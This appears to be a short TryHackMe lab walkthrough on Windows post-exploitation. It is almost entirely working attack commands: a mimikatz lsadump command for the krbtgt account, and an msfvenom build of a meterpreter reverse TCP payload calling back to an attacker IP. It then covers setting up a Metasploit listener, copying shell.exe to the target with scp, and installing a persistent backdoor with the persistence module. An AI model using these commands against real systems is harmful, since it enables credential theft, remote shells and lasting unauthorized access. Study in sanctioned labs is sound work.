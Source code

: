 ```lsadump::lsa /inject /name:krbtgt```
LHOST refers to Local Host i.e your machine
view your THM ip here - https://tryhackme.com/access

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.202.7 LPORT=5555 -f exe -o shell.exe```

Transfer to target machine  
open Metasploit
```
msfconsole
use exploit/multi/handler
```
this will create a listener on the port that you set it on

Configure the payload to be a windows shell

```set payload windows/meterpreter/reverse_tcp```

set lhost and lport in msfconsole
```
set lhost $localIP
set lport $localport
```
Then start with ```run```

now copy shell.exe to remote computer with scp

```scp shell.exe Administrator@10.10.53.146:c:/```

Run shell.exe on remote computer

you will see a connection and console will be ```meterpreter >```

type ```background``` to send session to background

## Now for persistance

```use exploit/windows/local/persistence``` this module will send a payload every 10 seconds in default

```set session 1```

```run```

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to ```windows/meterpreter/reverse_tcp``` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.